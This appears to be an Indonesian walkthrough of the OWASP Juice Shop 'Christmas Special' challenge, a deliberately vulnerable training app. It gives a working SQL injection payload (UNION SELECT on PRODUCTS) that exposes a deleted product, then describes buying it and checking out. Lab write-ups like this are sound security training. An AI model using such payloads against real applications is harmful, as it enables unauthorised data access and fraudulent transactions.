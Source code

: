 # 1. Christmas Special

# 2. https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false

# 3. Penyelesaian

a. Coba cari produk Christmas-Super-Suprise-Box yang sudah dihapus menggunakan payload ```test'))+UNION+SELECT+*+FROM+PRODUCTS+WHERE+deletedAt+IS+NOT+NULL--```

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/3127daa7-5d87-4fc7-bae9-2795b34b6616" />

b. test beli ke produk itu dengan ```ProductId = 10```

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/a120a3df-803b-4ed7-8910-e763d24e607d" />

c. bisa di cek solvenya setelah berhasil cekout

<img width="1430" height="49" alt="image" src="https://github.com/user-attachments/assets/a467dcdb-dc8e-4c01-9025-e9e3a7a96742" />
